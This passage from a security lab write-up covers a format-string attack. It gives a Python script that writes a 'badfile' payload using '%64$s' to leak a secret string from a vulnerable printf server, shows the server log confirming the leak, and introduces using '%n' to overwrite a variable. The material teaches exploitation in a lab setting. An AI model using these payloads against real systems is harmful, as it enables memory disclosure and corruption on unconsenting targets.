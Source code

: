 In the previous task we also discovered that the inputs go to the 64th position in the stack, so instead of adding 64 "%x", we use the line `s = "%64$s"` to go directly there, so that the `printf()` call reads the given secret message's address.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%64$s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

As seen in the output, we successfully accessed the string address and we printed its value:

```rust
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd3e0
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffd308
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  |@
                  A secret message
server-10.9.0.5  | The target variable's value (after):  0x11223344
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 3.A

In this task, it is asked to change the value of the _target_ variable, defined as a global variable in the program. For this purpose, we can take advantage of the `%n` format specifier, which writes to a variable from the arguments a value equal to the number of characters that have been printed by `printf()` before the occurrence of `%n`.
